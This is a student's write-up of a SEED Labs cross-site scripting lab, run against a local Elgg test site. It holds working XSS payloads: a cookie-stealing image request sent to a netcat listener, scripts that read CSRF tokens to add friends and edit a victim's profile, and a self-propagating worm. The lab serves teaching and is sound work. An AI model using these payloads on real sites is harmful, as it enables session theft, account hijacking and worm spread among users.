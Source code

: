 # CS 4173 Lab 5
#### Cross-Site Scripting Attack Lab

## Prerequisites
Versions of software used listed here:
- Environment: SEEDUbuntu 16.04

## Task 1: Posting a Malicious Message to Display an Alert Window

In this task,verify that the system is indeed vulnerable to cross-site scripting attacks. An easy way to test this in general is to submit content with a `<script>` tag and see if something simple such as an alert box can be called. We post the following contents to Samy's profile:

```html
<script>alert('XSS');</script>
```

Upon visiting Samy's profile, the visitor now gets an alert box popup saying "XSS" which confirms that the system is susceptible to XSS attacks.

## Task 2: Posting a Malicious Message to Display Cookies

Now that we can use XSS on this system, we can now start attempting to grab private user data, in particular cookies. We can modify the script above to do so:

```html
<script>alert(document.cookie);</script>
```

## Task 3: Stealing Cookies from the Victim’s Machine

With the above method, we can alert the cookies to the user's screen, but the attacker is not yet able to view this information. In order to transfer this data to the attacker, they can use a malicioius HTTP GET request, for example with a fake image. We can append the information to this request which goes to the attacker's machine. In this example, we are using the localhost IP address since we are testing on the same machine:

```html
<script>document.write('<img src="http://127.0.0.1:5555?c=' + escape(document.cookie) + '>')</script>
```

Then, using the `netcat` utility, we can view the incoming GET requests from the attacker which will include the appended cookie data:

```
$ nc -l 5555 -v
```

## Task 4: Becoming the Victim’s Friend

For a cross-site scripting attack, the information may not need to be sent to the attacker, but can be used directly in the attacker's script as demonstrated in this task. By using cross-site scripting in this case, the attacker (Samy) can use a script to take the user's CSRF tokens and make a request to add himself as a friend:

```html
<script type="text/javascript">
    window.onload = function () {
        let xhr = null;

        let ts = "&__elgg_ts="+elgg.security.token.__elgg_ts;
        let token = "&__elgg_token="+elgg.security.token.__elgg_token;

        //Construct the HTTP request to add Samy as a friend.
        let sendurl = "http://www.xsslabelgg.com/action/friends/add?friend=47" + ts + token;

        //Create and send xhr request to add friend
        xhr = new XMLHttpRequest();
        xhr.open("GET",sendurl,true);
        xhr.setRequestHeader("Host","www.xsslabelgg.com");
        xhr.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
        xhr.send();
    }
</script>
```

### Question 1

These two lines retrieve the tokens which are used to prevent CSRF attacks. In order to make a request, one must have the correct tokens or else the server will reject the request.

### Question 2

If the user can only use the rich text editor, they will not be able to insert malicious scripts into their profile. If we inspect the POST request, we can see that if we attempt to insert a script through the editor, characters such as the angle brackets are converted to their respective HTML entities like `&lt;` and `&gt;` for example. This prevents the HTML from parsing it as an HTML `script` tag and reading it as a regular string instead.

## Task 5: Modifying the Victim’s Profile

In addition to adding himself as a friend, Samy can also use cross-site scripting attack in order to modify a user's profile. Again, by taking the CSRF tokens and their guid, Samy can make a malicious POST request once he knows the structure of the request. This can be done by inspecting the contents of the request with HTTP Header Live. The following script will change the profile of anyone visiting Samy's profile to say "Samy is my hero":

```html
<script type="text/javascript">
    window.onload = function(){
        //JavaScript code to access user name, user guid, Time Stamp __elgg_ts
        //and Security Token __elgg_token
        let userName = elgg.session.user.name;
        let guid = "&guid="+elgg.session.user.guid;
        let ts = "&__elgg_ts="+elgg.security.token.__elgg_ts;
        let token = "__elgg_token="+elgg.security.token.__elgg_token;

        //Construct the content of your url.
        let sendurl = "http://www.xsslabelgg.com/action/profile/edit";
        let content = token + ts + "&description=Samy is my hero&accesslevel[description]=2" + guid;

        let samyGuid = 47;
        if(elgg.session.user.guid != samyGuid) {
            //Create and send xhr request to modify profile
            let xhr = null;
            xhr = new XMLHttpRequest();
            xhr.open("POST",sendurl,true);
            xhr.setRequestHeader("Host","www.xsslabelgg.com");
            xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
            xhr.send(content);
        }
    }
</script>
```

### Question 3

We need this line in order to make the attack successful since the page redirects to the user's profile after saving their profile. If we remove this line (or set it to `if (true)`), once Samy saves the malicious script, it will immediately send the POST request to change his own profile to say "Samy is my hero" and therefore when future visitors arrive at his profile, that is all they will see. Therefore, we first need to check if the user viewing the page is Samy himself; if so, the attack should not happen.

## Task 6: Writing a Self-Propagating XSS Worm

One of the more widespread effects of XSS can be seen through the creation of self-propagating worms. By combining both scripts above, Samy can then create a self-propagating worm which will modify the visitor's profile and add the same script to their profile which will further spread to visitors of that profile.

```html
<script id="worm">

    window.onload = function() {
        let headerTag = "<script id=\"worm\" type=\"text/javascript\">";
        let jsCode = document.getElementById("worm").innerHTML;
        let tailTag = "</" + "script>";
        let wormCode = encodeURIComponent(headerTag + jsCode + tailTag);

        let userName = elgg.session.user.name;
        let guid = "&guid="+elgg.session.user.guid;
        let ts = "&__elgg_ts="+elgg.security.token.__elgg_ts;
        let token = "&__elgg_token="+elgg.security.token.__elgg_token;

        //Construct the HTTP request to add Samy as a friend and modify their profile.
        let addFriendURL = "http://www.xsslabelgg.com/action/friends/add?friend=47" + ts + token;
        let profileEditURL = "http://www.xsslabelgg.com/action/profile/edit";
        let content = token + ts + "&description=Samy is my hero" + wormCode + "&accesslevel[description]=2" + guid;

        let samyGuid = 47;
        if(elgg.session.user.guid != samyGuid) {
            //Create and send xhr request to add friend
            let addFriend = null;
            addFriend = new XMLHttpRequest();
            addFriend.open("GET",addFriendURL,true);
            addFriend.setRequestHeader("Host","www.xsslabelgg.com");
            addFriend.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
            addFriend.send();

            //Create and send xhr request to modify profile
            let changeProfile = null;
            changeProfile = new XMLHttpRequest();
            changeProfile.open("POST",profileEditURL,true);
            changeProfile.setRequestHeader("Host","www.xsslabelgg.com");
            changeProfile.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
            changeProfile.send(content);
        }
    }
</script>
```